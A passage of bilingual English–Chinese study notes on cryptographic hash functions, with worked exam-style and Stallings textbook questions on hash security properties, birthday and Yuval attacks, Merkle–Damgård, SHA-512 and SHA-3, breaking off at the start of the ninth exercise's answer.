| Davies–Meyer | build \(f\) from a block cipher: \(E(Y,CV)\oplus CV\); the feed-forward makes it one-way由分组密码构造 \(f\)：\(E(Y,CV)\oplus CV\)；前馈使其具有单向性。 |
| NBS schemeNBS 方案 | XOR checksum plus CBC encryption; blocks can be permuted, the check still passesXOR 校验加 CBC 加密；分组可以被置换，而校验仍然通过。 |
| MD5 | 128-bit hash; a 10 million dollar machine finds a collision in 24 days128 比特散列；一台造价 1000 万美元的机器能在 24 天内找到碰撞。 |
| SHA-1 | 160 bits; first real collision in 2017 with \(2^{63.1}\) compressions160 比特；2017 年首次实际碰撞，所用压缩次数为 \(2^{63.1}\)。 |
| SHA-512/256 | SHA-512 with its own initial value and the output cut to 256 bits; collision security \(2^{128}\)SHA-512 使用其自身的初始值，输出截断为 256 比特；碰撞安全性为 \(2^{128}\)。 |
| Multirate padding多速率填充 | pad10*1: a 1, zeros, a final 1; stays secure if \(r\) changespad10*1：一个 1、若干零，再加一个最终的 1；若 \(r\) 改变，它仍然安全。 |
| Lane通道 | a 64-bit word of the SHA-3 state; the state is 25 lanesSHA-3 状态中的一个 64 位字；状态共有 25 个通道。 |
| Extendable-output function可扩展输出函数 | sponge that can give any number of output bits可以输出任意多比特的海绵结构 |
| HMAC | the standard keyed hash; hashes twice with the key (Section 12.3)标准的带密钥散列；用密钥进行两次散列（见第 12.3 节）。 |
Exam-style questions考试题型练习
Q1. (Concepts, 10 marks) (a) Define preimage resistance, second preimage resistance and collision resistance. (3) (b) Prove that collision resistance implies second preimage resistance, and give a case where the converse fails. (3) (c) State which of the three properties a one-way password file, a file-integrity monitor and a digital signature on \(H(M)\) rely on. (3) (d) Why must a hash that travels with a message be protected? (1)Q1.（概念，10 分）(a) 定义抗原像性、抗第二原像性和抗碰撞性。（3 分）(b) 证明抗碰撞性蕴含抗第二原像性，并给出逆命题不成立的一个例子。（3 分）(c) 说明单向口令文件、文件完整性监控器以及对 \(H(M)\) 的数字签名分别依赖上述三种性质中的哪一种。（3 分）(d) 为什么随消息一同传输的散列值必须受到保护？（1 分）
Answer
(a) Preimage resistance: for a given \(h\), finding \(y\) with \(H(y)=h\) is computationally infeasible. Second preimage resistance: for a given \(x\), finding \(y\ne x\) with \(H(y)=H(x)\) is infeasible. Collision resistance: finding any pair \(x\ne y\) with \(H(x)=H(y)\) is infeasible.(a) 抗原像性：对于给定的 \(h\)，找到满足 \(H(y)=h\) 的 \(y\) 在计算上是不可行的。抗第二原像性：对于给定的 \(x\)，找到满足 \(H(y)=H(x)\) 的 \(y\ne x\) 是不可行的。抗碰撞性：找到任一满足 \(H(x)=H(y)\) 的一对 \(x\ne y\) 是不可行的。
(b) Suppose an attacker could, for a given \(x\), find \(y\ne x\) with \(H(y)=H(x)\). Choosing \(x\) at random and running this attack yields a collision \((x,y)\). So a collision-resistant function is second preimage resistant. The converse fails: an ideal 80-bit hash resists second preimage attacks (\(2^{80}\) work), but a birthday search finds a collision after about \(2^{40}\) hashes.(b) 假设攻击者能够对给定的 \(x\) 找到满足 \(H(y)=H(x)\) 的 \(y\ne x\)。随机选取 \(x\) 并运行该攻击，便得到碰撞 \((x,y)\)。因此，抗碰撞的函数也具有抗第二原像性。逆命题不成立：理想的 80 位散列能够抵抗第二原像攻击（需 \(2^{80}\) 的工作量），但生日搜索约在 \(2^{40}\) 次散列后即可找到碰撞。
(c) Password file: preimage resistance, since a thief holding \(h\) must not recover the password. File-integrity monitor: second preimage resistance, since the intruder holds \(F\) and \(H(F)\) and needs \(F^*\ne F\) with the same hash. Digital signature: all three. Second preimage resistance stops transplanting a signature to another message, collision resistance stops the IOU attack when the attacker chooses the messages, and preimage resistance stops a forger who picks a signature value, applies the public key to get a would-be hash and inverts it to a message.(c) 口令文件：依赖抗原像性，因为持有 \(h\) 的窃贼不能恢复口令。文件完整性监控器：依赖抗第二原像性，因为入侵者持有 \(F\) 和 \(H(F)\)，并需要找到具有相同散列值的 \(F^*\ne F\)。数字签名：三种性质都需要。抗第二原像性防止将签名移植到另一条消息上；当攻击者可以自行选择消息时，抗碰撞性防止 IOU 攻击；抗原像性防止伪造者任选一个签名值，用公钥计算出一个假定的散列值，再将其反推为一条消息。
(d) \(H\) is public and keyless, so an attacker who alters \(M\) can recompute the hash. The hash must therefore be encrypted, keyed with a shared secret or signed.(d) \(H\) 是公开且无密钥的，因此篡改 \(M\) 的攻击者可以重新计算散列值。因此，散列值必须加密，或以共享秘密作为密钥，或经过签名。
Q2. (Calculation, 12 marks) A signature scheme signs a 56-bit hash of each document. Mallory computes \(10^8\) hashes per second. (a) What is the average work for a preimage? (2) (b) How many documents must be hashed for a collision with probability 0.5 and with 0.9, and how long does that take? (4) (c) Describe Yuval's attack and give its work and storage. (4) (d) What digest length gives \(2^{128}\) collision security, and which SHA function has it? (2)Q2.（计算，12 分）一种签名方案对每份文档的 56 位散列值进行签名。Mallory 每秒计算 \(10^8\) 次散列。(a) 求原像的平均工作量。（2 分）(b) 当碰撞概率为 0.5 和 0.9 时，各需要散列多少份文档？需要多长时间？（4 分）(c) 描述 Yuval 攻击，并给出其工作量和存储量。（4 分）(d) 要达到 \(2^{128}\) 的碰撞安全性需要多长的摘要，哪一种 SHA 函数具有该长度？（2 分）
Answer
(a) \(2^{n-1}=2^{55}=3.6\times10^{16}\) hashes, i.e. \(3.6\times10^{8}\) s \(\approx11\) years at \(10^8\) hashes per second.(a) \(2^{n-1}=2^{55}=3.6\times10^{16}\) 次散列，即以每秒 \(10^8\) 次散列计算，耗时 \(3.6\times10^{8}\) s \(\approx11\) 年。
(b) \(N=2^{56}\), \(\sqrt N=2^{28}=2.68\times10^{8}\). For \(p=0.5\): \(k=1.1774\times2^{28}=3.16\times10^{8}\) documents, about 3.2 s. For \(p=0.9\): \(k=\sqrt{2\ln10}\times2^{28}=2.146\times2.68\times10^{8}=5.76\times10^{8}\), about 5.8 s.(b) \(N=2^{56}\)，\(\sqrt N=2^{28}=2.68\times10^{8}\)。对于 \(p=0.5\)：\(k=1.1774\times2^{28}=3.16\times10^{8}\) 份文档，约 3.2 s。对于 \(p=0.9\)：\(k=\sqrt{2\ln10}\times2^{28}=2.146\times2.68\times10^{8}=5.76\times10^{8}\)，约 5.8 s。
(c) Mallory generates \(2^{28}\approx2.7\times10^{8}\) meaning-preserving variations of the genuine document and stores their hashes. She then generates variations of the fraudulent document until a hash matches a stored one; each variation matches with probability \(2^{28}/2^{56}=2^{-28}\), so about \(2^{28}\) further hashes are expected. Alice signs the matching genuine variation, and the signature is valid for the matching fraudulent one. Work is about \(2^{29}=5.4\times10^{8}\) hashes (about 5.4 s) and storage is \(2^{28}\) hash values.(c) Mallory 生成 \(2^{28}\approx2.7\times10^{8}\) 个与原文档语义相同的真实文档变体，并存储它们的散列值。随后，她生成欺诈文档的变体，直到某个散列值与已存储的值匹配为止；每个变体以概率 \(2^{28}/2^{56}=2^{-28}\) 匹配，因此预期还需约 \(2^{28}\) 次散列。Alice 对匹配的真实变体签名，该签名对与之匹配的欺诈变体同样有效。工作量约为 \(2^{29}=5.4\times10^{8}\) 次散列（约 5.4 s），存储量为 \(2^{28}\) 个散列值。
(d) \(2^{n/2}\ge2^{128}\) needs \(n\ge256\) bits: SHA-256 (also SHA-512/256 and SHA3-256).(d) \(2^{n/2}\ge2^{128}\) 需要 \(n\ge256\) 比特：SHA-256（SHA-512/256 和 SHA3-256 亦可）。
思路：先算 \(\sqrt N=2^{n/2}\)，再乘 1.1774（概率 0.5）或 \(\sqrt{2\ln10}=2.146\)（概率 0.9）。
Q3. (Structure, 10 marks) (a) Describe the Merkle–Damgård construction with its formulas and say what \(IV\), \(CV_i\) and \(f\) are. (4) (b) Show that \(H\) is collision resistant if \(f\) is, and explain the role of the length in the padding. (4) (c) Name one weakness of iterated hashes for the MAC \(H(K\Vert M)\) and say how the sponge avoids it. (2)Q3.（结构，10 分）(a) 结合其公式描述 Merkle–Damgård 结构，并说明 \(IV\)、\(CV_i\) 和 \(f\) 分别是什么。（4 分）(b) 证明：若 \(f\) 具有抗碰撞性，则 \(H\) 也具有抗碰撞性，并解释填充中长度字段的作用。（4 分）(c) 指出迭代型散列用于 MAC \(H(K\Vert M)\) 时的一个弱点，并说明海绵结构如何避免该弱点。（2 分）
Answer
(a) The message is padded, with the total length in the last block, and split into blocks \(Y_0,\dots,Y_{L-1}\) of \(b\) bits. \(f\) is the compression function mapping an \(n\)-bit chaining variable and a \(b\)-bit block to \(n\) bits. \(IV\) is a fixed \(n\)-bit initial value. Then \(CV_0=IV\), \(CV_i=f(CV_{i-1},Y_{i-1})\) for \(1\le i\le L\), and \(H(M)=CV_L\).(a) 消息经填充后，最后一个分组中包含总长度，并被切分为若干个 \(b\) 比特的分组 \(Y_0,\dots,Y_{L-1}\)。\(f\) 是压缩函数，它将 \(n\) 比特的链接变量与 \(b\) 比特的分组映射为 \(n\) 比特。\(IV\) 是固定的 \(n\) 比特初始值。然后 \(CV_0=IV\)；对 \(1\le i\le L\) 执行 \(CV_i=f(CV_{i-1},Y_{i-1})\)；最后 \(H(M)=CV_L\)。
(b) Suppose \(H(M)=H(M')\) with \(M\ne M'\). Then \(f(CV_{L-1},Y_{L-1})=f(CV'_{L'-1},Y'_{L'-1})\). If the inputs differ, that is a collision for \(f\). If not, the last blocks coincide, so the lengths and block counts coincide, and so do \(CV_{L-1}\) and \(CV'_{L-1}\). Repeat backwards. Either some step gives two different inputs with the same output (a collision for \(f\)) or all blocks coincide and \(M=M'\), a contradiction. The length field makes equal last blocks imply equal lengths and prevents trivial collisions such as \(M\) against \(M\) with extra zero padding.(b) 假设 \(H(M)=H(M')\) 与 \(M\ne M'\) 成立。于是 \(f(CV_{L-1},Y_{L-1})=f(CV'_{L'-1},Y'_{L'-1})\)。若输入不同，则这就是 \(f\) 的一个碰撞。若不然，最后的分组一致，因此长度与分组数也一致，\(CV_{L-1}\) 与 \(CV'_{L-1}\) 亦然。逐块向前回推。要么某一步得到两个不同的输入却具有相同的输出（即 \(f\) 的碰撞），要么所有分组都相同且 \(M=M'\)，这是矛盾的。长度字段使得最后分组相同意味着长度相同，并防止了平凡碰撞，例如 \(M\) 与附加了额外零填充的 \(M\) 之间的碰撞。
(c) Length extension: the digest is the full final chaining value, so \(H(K\Vert M)\) allows forging \(H(K\Vert M\Vert\mathrm{pad}\Vert M_2)\) without \(K\). In a sponge only \(r\) of the \(b\) state bits are output; the capacity bits stay hidden, so the state cannot be resumed.(c) 长度扩展：摘要就是完整的最终链接值，因此 \(H(K\Vert M)\) 使得能够在没有 \(K\) 的情况下伪造 \(H(K\Vert M\Vert\mathrm{pad}\Vert M_2)\)。在海绵结构中，仅输出 \(b\) 比特状态中的 \(r\) 比特；容量比特保持隐藏，因此无法由该状态继续运算。
Q4. (SHA-512, 12 marks) A 1000-bit message is hashed with SHA-512. (a) Give the padding, the length field and the number of blocks. (3) (b) Write the round-function equations and say which registers are only copied. (4) (c) Give the formula for \(W_{20}\) and say how many of the 80 words come directly from the block. (2) (d) What does the final addition do and why is it needed? (2) (e) State the work for a collision and for a preimage. (1)Q4.（SHA-512，12 分）用 SHA-512 对一条 1000 比特的消息进行散列。(a) 给出填充、长度字段以及分组数。（3 分）(b) 写出轮函数的方程，并说明哪些寄存器只是被复制。（4 分）(c) 给出 \(W_{20}\) 的公式，并说明 80 个字中有多少个直接取自分组。（2 分）(d) 最后的加法起什么作用？为什么需要它？（2 分）(e) 写出碰撞和原像的工作量。（1 分）
Answer
(a) \(p=((895-1000)\bmod1024)+1=920\): a 1 bit followed by 919 zeros. The length field is \(1000=\texttt{3E8}_{16}\) as a 128-bit unsigned integer. Total length \(1000+920+128=2048\) bits, i.e. \(N=2\) blocks.(a) \(p=((895-1000)\bmod1024)+1=920\)：一个 1 比特，后面跟 919 个 0。长度字段以 128 位无符号整数表示，其值为 \(1000=\texttt{3E8}_{16}\)。总长度为 \(1000+920+128=2048\) 比特，即 \(N=2\) 个分组。
(b) \(T_1=h+\mathrm{Ch}(e,f,g)+\Sigma_1(e)+W_t+K_t\), \(T_2=\Sigma_0(a)+\mathrm{Maj}(a,b,c)\), then \(h\leftarrow g\), \(g\leftarrow f\), \(f\leftarrow e\), \(e\leftarrow d+T_1\), \(d\leftarrow c\), \(c\leftarrow b\), \(b\leftarrow a\), \(a\leftarrow T_1+T_2\), all additions mod \(2^{64}\). Registers \(b,c,d,f,g,h\) are only copied from neighbours; \(a\) and \(e\) are newly computed.(b) \(T_1=h+\mathrm{Ch}(e,f,g)+\Sigma_1(e)+W_t+K_t\)、\(T_2=\Sigma_0(a)+\mathrm{Maj}(a,b,c)\)，然后依次是 \(h\leftarrow g\)、\(g\leftarrow f\)、\(f\leftarrow e\)、\(e\leftarrow d+T_1\)、\(d\leftarrow c\)、\(c\leftarrow b\)、\(b\leftarrow a\)、\(a\leftarrow T_1+T_2\)，所有加法均模 \(2^{64}\)。寄存器 \(b,c,d,f,g,h\) 仅从相邻寄存器复制而来；\(a\) 和 \(e\) 是新计算出的。
(c) \(W_{20}=\sigma_1(W_{18})+W_{13}+\sigma_0(W_{5})+W_{4}\). Sixteen words (\(W_0,\dots,W_{15}\)) come directly from the block; the other 64 come from the schedule.(c) \(W_{20}=\sigma_1(W_{18})+W_{13}+\sigma_0(W_{5})+W_{4}\)。其中 16 个字（\(W_0,\dots,W_{15}\)）直接取自分组，其余 64 个字来自消息调度。
(d) The output of round 79 is added word by word mod \(2^{64}\) to the input value \(H_{i-1}\). Each round is invertible, so without the addition the rounds could be run backwards; the feed-forward makes the compression function one-way.(d) 第 79 轮的输出与输入值 \(H_{i-1}\) 按字逐字模 \(2^{64}\) 相加。每一轮都是可逆的，因此若没有这一加法，轮函数便可以反向运行；前馈使压缩函数具有单向性。
(e) Collision about \(2^{256}\), preimage about \(2^{512}\).(e) 碰撞攻击约需 \(2^{256}\) 次运算，原像攻击约需 \(2^{512}\) 次运算。
Q5. (SHA-3, 10 marks) (a) Describe the sponge construction: parameters, the absorbing and squeezing phases and the padding. (4) (b) For SHA3-384 give \(r\), \(c\), the number of lanes absorbed per block, the number of calls of \(f\) for a 5000-bit message, and the collision and preimage security. (4) (c) List the five steps of a Keccak round in order and name the nonlinear one. (1) (d) Give one structural difference between SHA-2 and SHA-3. (1)Q5.（SHA-3，10 分）(a) 描述海绵结构：参数、吸收阶段与挤出阶段，以及填充。（4 分）(b) 对于 SHA3-384，给出 \(r\) 和 \(c\)、每个分组吸收的通道数、处理 5000 比特消息时 \(f\) 的调用次数，以及碰撞安全性与原像安全性。（4 分）(c) 按顺序列出 Keccak 轮的五个步骤，并指出其中的非线性步骤。（1 分）(d) 给出 SHA-2 与 SHA-3 之间的一个结构差异。（1 分）
Answer
(a) A sponge has the permutation \(f\) on \(b=r+c\) bits, the rate \(r\) and a padding rule; the state starts as zeros. The message is padded (pad10*1, always at least two bits) to blocks of \(r\) bits. Absorbing: each block, extended by \(c\) zeros, is XORed into the state and \(f\) is applied. Squeezing: the first \(r\) bits of the state are output; if more are needed, \(f\) is applied again and the next \(r\) bits are taken, until \(\ell\) bits are produced. The capacity \(c\) is never touched by input or revealed, and it sets the security.(a) 海绵结构有置换 \(f\)（作用于 \(b=r+c\) 比特上）、速率 \(r\) 和一条填充规则；状态初始为全零。消息按 pad10*1 填充（总是至少附加两个比特）后分成长度为 \(r\) 比特的分组。吸收阶段：每个分组补上 \(c\) 个零后与状态异或，然后应用 \(f\)。挤出阶段：输出状态的前 \(r\) 比特；若还需要更多输出，则再次应用 \(f\)，并取接下来的 \(r\) 比特，直到产生 \(\ell\) 比特为止。容量 \(c\) 从不被输入改写，也不会被输出，它决定了安全性。
(b) \(d=384\): \(c=768\), \(r=1600-768=832\). Lanes per block \(832/64=13\). Blocks \(k=\lceil5002/832\rceil=7\) (since \(6\times832=4992<5002\le5824\)). The digest of 384 bits is at most \(r\), so no squeezing call: 7 calls of \(f\). Collision security \(2^{192}\), preimage security \(2^{384}\).(b) \(d=384\)：\(c=768\)，\(r=1600-768=832\)。每个分组的通道数为 \(832/64=13\)。分组数为 \(k=\lceil5002/832\rceil=7\)（因为 \(6\times832=4992<5002\le5824\)）。384 比特的摘要至多为 \(r\)，因此不需要挤出调用：共 7 次 \(f\) 调用。碰撞安全性为 \(2^{192}\)，原像安全性为 \(2^{384}\)。
(c) \(\theta,\rho,\pi,\chi,\iota\); \(\chi\) is the only nonlinear step.(c) \(\theta,\rho,\pi,\chi,\iota\)；其中 \(\chi\) 是唯一的非线性步骤。
(d) SHA-2 is a Merkle–Damgård compression function using addition mod \(2^{32}\) or \(2^{64}\) and exposes the whole chaining value; SHA-3 is a sponge on a permutation using only XOR, AND, NOT and rotations and hides its capacity.(d) SHA-2 是一种 Merkle–Damgård 压缩函数，使用模 \(2^{32}\) 或模 \(2^{64}\) 的加法，并暴露整个链接值；SHA-3 则是基于置换的海绵结构，只使用异或、与、非和循环移位，并隐藏其容量部分。
Textbook exercises课后习题
Textbook exercises with answers: 14 questions教材习题及答案，共 14 题，点击展开
E1. (Review Question 11.1, Stallings; 2.7, Stallings & Brown) What characteristics are needed in a secure hash function, i.e. what properties must a hash function have to be useful for message authentication?E1.（复习题 11.1，Stallings；2.7，Stallings & Brown）安全的散列函数需要具备哪些特征？也就是说，散列函数要用于消息认证，必须具有哪些性质？
Answer
A hash function \(H\) maps a message of any length to a fixed-length value \(h=H(M)\) and has no key. To be useful for authentication it must satisfy:散列函数 \(H\) 把任意长度的消息映射为一个固定长度的值 \(h=H(M)\)，并且没有密钥。要用于认证，它必须满足以下条件：
- Variable input size: \(H\) can be applied to a block of data of any size.输入长度可变：\(H\) 可以应用于任意大小的数据块。
- Fixed output size: \(H\) produces a fixed-length output.输出长度固定：\(H\) 产生固定长度的输出。
- Efficiency: \(H(x)\) is easy to compute for any \(x\), in hardware and in software.效率：对于任意 \(x\)，\(H(x)\) 都很容易计算，无论是在硬件上还是在软件上。
- Preimage resistance (one-way): for a given \(h\) it is infeasible to find \(y\) with \(H(y)=h\).抗原像性（单向性）：对于给定的 \(h\)，要找到满足 \(H(y)=h\) 的 \(y\) 是不可行的。
- Second preimage resistance (weak collision resistance): for a given \(x\) it is infeasible to find \(y\ne x\) with \(H(y)=H(x)\).抗第二原像性（弱抗碰撞性）：对于给定的 \(x\)，要找到满足 \(H(y)=H(x)\) 的 \(y\ne x\) 是不可行的。
- Collision resistance (strong collision resistance): it is infeasible to find any pair \(x\ne y\) with \(H(x)=H(y)\).抗碰撞性（强抗碰撞性）：要找到任意一对满足 \(H(x)=H(y)\) 的 \(x\ne y\)，是不可行的。
Properties 1–5 define a weak hash function, adding 6 gives a strong one. Property 4 protects a secret value mixed into the hash, 5 prevents forging a message under an encrypted hash, and 6 stops an attacker who picks both messages (for example two contracts to be signed).性质 1–5 定义弱散列函数，再加上 6 就得到强散列函数。性质 4 保护与散列混合在一起的秘密值；性质 5 防止在加密散列值之下伪造消息；性质 6 阻止自行选取两条消息的攻击者（例如两份待签署的合同）。
思路：前三条是实用性要求，后三条是单向、抗第二原像、抗碰撞三种安全性。
E2. (Review Question 11.2, Stallings) Alice sends Bob a message with an attached hash value. If the message digest is sent in a secure fashion, how would Bob know whether there was a man-in-the-middle attack?E2.（复习题 11.2，Stallings）Alice 向 Bob 发送一条附带散列值的消息。如果消息摘要是以安全的方式发送的，Bob 怎样才能知道是否存在中间人攻击？
Answer
Bob recomputes the hash of the message he received, \(H(M')\), and compares it with the digest he received over the secure channel. If \(M'\ne M\), the two values differ (with overwhelming probability, because of second preimage resistance), so Bob detects that the message was modified in transit. The man in the middle cannot repair this by changing the digest too, because the digest is protected (for example encrypted with a shared key, signed, or sent over a trusted channel); and the hash function is public, so he cannot produce a protected digest for his own message. If the values agree, Bob concludes that the message is unchanged.Bob 对收到的消息重新计算散列 \(H(M')\)，并把它与通过安全信道收到的摘要进行比较。如果 \(M'\ne M\)，那么两个值就会不同（由于抗第二原像性，几乎必然不同），因此 Bob 能发现消息在传输中被修改过。中间人无法通过同时修改摘要来掩盖这一点，因为摘要是受保护的（例如用共享密钥加密、签名，或通过可信信道发送）；而且散列函数是公开的，所以他无法为自己的消息生成一个受保护的摘要。如果两个值一致，Bob 就可以断定消息没有被改动。
思路：摘要受保护时，中间人改了消息就对不上重新算出的哈希，也没法同时改摘要。
E3. (Review Question 11.3, Stallings; 21.1, Stallings & Brown) What is the role of a compression function in a hash function?E3.（复习题 11.3，Stallings；21.1，Stallings & Brown）压缩函数在散列函数中起什么作用？
Answer
Most hash functions use the iterated (Merkle–Damgård) structure. The padded message, whose last block contains its length, is split into \(b\)-bit blocks \(Y_0,\dots,Y_{L-1}\). The compression function \(f\) takes an \(n\)-bit chaining variable and one \(b\)-bit block and returns a new \(n\)-bit chaining variable (usually \(b>n\), hence "compression"):大多数散列函数采用迭代的（Merkle–Damgård）结构。填充后的消息（其最后一个分组包含消息长度）被切分为 \(b\) 比特的分组 \(Y_0,\dots,Y_{L-1}\)。压缩函数 \(f\) 以一个 \(n\) 比特的链接变量和一个 \(b\) 比特的分组为输入，返回一个新的 \(n\) 比特链接变量（通常 \(b>n\)，“压缩”因此得名）：
\[CV_0=IV,\qquad CV_i=f(CV_{i-1},Y_{i-1}),\qquad H(M)=CV_L\]
So \(f\) does all the work of mixing a block into the state, and a long message is processed one block at a time. If \(f\) is collision resistant and the length is part of the padded input, then \(H\) is collision resistant, so the design of a secure hash reduces to the design of a good fixed-input-size function \(f\).因此，\(f\) 承担了把一个分组混合进状态的全部工作，而长消息则逐个分组地处理。如果 \(f\) 抗碰撞，并且长度包含在填充后的输入中，那么 \(H\) 也抗碰撞。于是，设计一个安全的散列就归结为设计一个好的、固定输入长度的函数 \(f\)。
思路：压缩函数把链接变量和一个分组压成 n 位，迭代起来就是散列函数。
E4. (Review Question 11.4, Stallings) How safe is it to use a hash function without encryption in terms of integrity?E4.（复习题 11.4，Stallings）在完整性方面，不加密而直接使用散列函数有多安全？
Answer
Not safe against an active attacker. The hash function is public and has no key, so anyone can recompute it. An attacker who changes the message simply computes the hash of the new message and replaces the old one, and the receiver finds nothing wrong. An unprotected hash only detects accidental errors (like a checksum), not deliberate modification.对主动攻击者来说并不安全。散列函数是公开的，而且没有密钥，因此任何人都能重新计算它。攻击者只要修改消息，计算新消息的散列并替换旧的散列，接收者就发现不了任何问题。未受保护的散列只能发现偶然错误（类似校验和），无法发现蓄意的篡改。
The hash value must therefore be protected: encrypted with a symmetric key shared by sender and receiver, signed with the sender's private key, mixed with a secret key (a keyed hash such as HMAC), or transmitted over a secure channel.因此，散列值必须加以保护：用发送者和接收者共享的对称密钥加密，用发送者的私钥签名，与秘密密钥混合（即像 HMAC 这样的带密钥散列），或者通过安全信道发送。
思路：哈希公开可算，攻击者改完消息可以重新算哈希，所以哈希值本身必须受保护。
E5. (Review Question 11.5, Stallings; 21.2, Stallings & Brown) What basic arithmetical and logical functions are used in SHA?E5.（复习题 11.5，Stallings；21.2，Stallings & Brown）SHA 中使用了哪些基本的算术与逻辑函数？
Answer
SHA uses only simple operations on words:SHA 只对字使用简单的运算：
- Bitwise Boolean functions: AND, OR, NOT and XOR. They build the round functions (Ch and Maj in SHA-2, and the stage-dependent functions of SHA-1).逐位布尔函数：与、或、非和异或。它们构成轮函数（SHA-2 中的 Ch 和 Maj，以及 SHA-1 中随阶段而变的函数）。
- Shifts and rotations: circular left shifts in SHA-1; rotations to the right and logical right shifts in SHA-2 (in \(\Sigma_0,\Sigma_1,\sigma_0,\sigma_1\)).移位与循环移位：SHA-1 中使用循环左移；SHA-2 中使用向右循环移位和逻辑右移（在 \(\Sigma_0,\Sigma_1,\sigma_0,\sigma_1\) 中）。
- Modular addition: addition modulo \(2^{32}\) in SHA-1 and SHA-256, modulo \(2^{64}\) in SHA-512. It is the only arithmetic operation; it is not linear over XOR, which gives the nonlinearity.模加：在 SHA-1 和 SHA-256 中是模 \(2^{32}\) 的加法，在 SHA-512 中是模 \(2^{64}\) 的加法。它是唯一的算术运算；它相对于异或不是线性的，正是这一点带来了非线性。
思路：布尔运算、移位/循环移位、模 \(2^{w}\) 加法，没有查表或乘法。
E6. (Review Question 11.6, Stallings) Define a collision and explain how to deal with collision attacks.E6.（复习题 11.6，Stallings）定义碰撞，并说明如何应对碰撞攻击。
Answer
A collision is a pair of different inputs \(x\ne y\) with \(H(x)=H(y)\). Collisions must exist: if inputs have \(b\) bits and the digest \(n<b\) bits, there are \(2^b\) inputs but only \(2^n\) hash values, so each value has about \(2^{b-n}\) preimages.碰撞是满足 \(H(x)=H(y)\) 的一对不同输入 \(x\ne y\)。碰撞必然存在：如果输入有 \(b\) 比特，而散列值有 \(n<b\) 比特，那么输入有 \(2^b\) 个，却只有 \(2^n\) 个散列值，因此每个散列值平均有大约 \(2^{b-n}\) 个原像。
Security therefore asks only that collisions cannot be found. A generic collision search needs about \(2^{n/2}\) evaluations (the birthday attack), so one deals with collision attacks by:因此，安全性只要求碰撞无法被找到。通用的碰撞搜索大约需要 \(2^{n/2}\) 次计算（即生日攻击），因此应对碰撞攻击的办法有：
- using a long enough digest (\(n\ge256\) today, so that \(2^{n/2}\ge2^{128}\));使用足够长的散列值（目前为 \(n\ge256\)，以使 \(2^{n/2}\ge2^{128}\)）；
- using a hash designed to be collision resistant (SHA-2, SHA-3) and retiring broken ones (MD5, SHA-1);使用专门为抗碰撞而设计的散列（SHA-2、SHA-3），并淘汰已被攻破的散列（MD5、SHA-1）；
- not signing messages that the other party fully controls, for example by adding fresh random data to a message before it is hashed and signed.不对对方完全可控的消息进行签名，例如在对消息进行散列和签名之前，先在其中加入新鲜的随机数据。
思路：碰撞一定存在，只要找不到；生日攻击约 \(2^{n/2}\)，所以摘要要够长、算法要未被攻破。
E7. (Review Question 11.7, Stallings) Define the term sponge construction.E7.（复习题 11.7，Stallings）定义术语海绵结构。
Answer
A sponge is an iterated construction with variable-length input and variable-length output, used by SHA-3 (Keccak). It has an internal function \(f\) on a \(b\)-bit state, a rate \(r\) (block size) and a padding rule; the state has \(b=r+c\) bits, where \(c\) is the capacity, and starts as zero.海绵结构是一种迭代结构，输入和输出的长度都可变，SHA-3（Keccak）就采用了这种结构。它包含一个作用于 \(b\) 比特状态的内部函数 \(f\)、速率 \(r\)（分组大小），以及一条填充规则；状态共有 \(b=r+c\) 比特，其中 \(c\) 为容量，状态初始为零。
- Absorbing: the padded message is cut into \(r\)-bit blocks; each block is extended with \(c\) zeros, XORed into the state, and \(f\) is applied.吸收阶段：填充后的消息被切分为 \(r\) 比特的分组；每个分组用 \(c\) 个零扩展，与状态异或，然后应用 \(f\)。
- Squeezing: the first \(r\) bits of the state are output; if more output is needed, \(f\) is applied again and the next \(r\) bits are taken, until enough bits are produced.挤出阶段：输出状态的前 \(r\) 比特；如果需要更多输出，就再次应用 \(f\)，并取接下来的 \(r\) 比特，直到产生足够多的比特为止。
The \(c\) capacity bits are never XORed with input and never output, so security depends on \(c\) (a larger \(c\) means more security and less speed).这 \(c\) 个容量比特从不与输入异或，也从不输出，因此安全性取决于 \(c\)（\(c\) 越大，安全性越高，速度越慢）。
思路：先吸收再挤出，容量部分不外露，所以安全由容量决定。
E8. (Review Question 11.8, Stallings) Summarise the five main steps of SHA-512 and its main functions.E8.（复习题 11.8，Stallings）概括 SHA-512 的五个主要步骤及其主要函数。
Answer
SHA-512 processes a message shorter than \(2^{128}\) bits in 1024-bit blocks and outputs 512 bits.SHA-512 以 1024 比特分组处理长度小于 \(2^{128}\) 比特的消息，并输出 512 比特。
- Append padding: a 1 bit and then 0 bits, so that the length is congruent to 896 mod 1024 (always at least 1 bit).附加填充：先补一个 1 比特，再补若干 0 比特，使长度模 1024 同余于 896（至少要补 1 比特）。
- Append length: a 128-bit unsigned integer with the original length; the result is \(N\) blocks of 1024 bits.附加长度：附加一个 128 比特的无符号整数，表示原始长度；结果是 \(N\) 个 1024 比特的分组。
- Initialise the buffer: eight 64-bit registers \(a,\dots,h\) get the initial value \(H_0\) (fractional parts of the square roots of the first eight primes).初始化缓冲区：八个 64 位寄存器 \(a,\dots,h\) 取初始值 \(H_0\)（即前八个素数平方根的小数部分）。
- Process each block with the compression function \(F\), an 80-round module. Round \(t\) takes a word \(W_t\) of the message schedule and a constant \(K_t\) (cube roots of primes), and updates the registers using \(\mathrm{Ch}\), \(\mathrm{Maj}\), \(\Sigma_0\), \(\Sigma_1\) and addition mod \(2^{64}\). \(W_0,\dots,W_{15}\) are the block words and \(W_t=\sigma_1(W_{t-2})+W_{t-7}+\sigma_0(W_{t-15})+W_{t-16}\) for \(t\ge16\). After round 79 the result is added word by word (mod \(2^{64}\)) to the previous value to give \(H_i\).逐块处理：用压缩函数 \(F\)（一个 80 轮的模块）处理每个分组。第 \(t\) 轮取消息调度中的一个字 \(W_t\) 和一个常数 \(K_t\)（素数立方根），并用 \(\mathrm{Ch}\)、\(\mathrm{Maj}\)、\(\Sigma_0\)、\(\Sigma_1\) 以及模 \(2^{64}\) 的加法更新寄存器。\(W_0,\dots,W_{15}\) 为分组中的字，\(W_t=\sigma_1(W_{t-2})+W_{t-7}+\sigma_0(W_{t-15})+W_{t-16}\) 用于 \(t\ge16\)。第 79 轮之后，结果与之前的值逐字相加（模 \(2^{64}\)），得到 \(H_i\)。
- Output: \(H_N\) after the last block is the 512-bit digest.输出：最后一个分组之后的 \(H_N\) 即为 512 比特的散列值。
思路：填充、加长度、初始化缓冲区、逐块 80 轮压缩、输出最后的链接值。
E9. (Review Question 11.9, Stallings) List and briefly describe the step functions that comprise the iteration function \(f\) (of SHA-3).E9.（复习题 11.9，Stallings）列出并简要描述构成 SHA-3 迭代函数 \(f\) 的各个步骤函数。
Answer
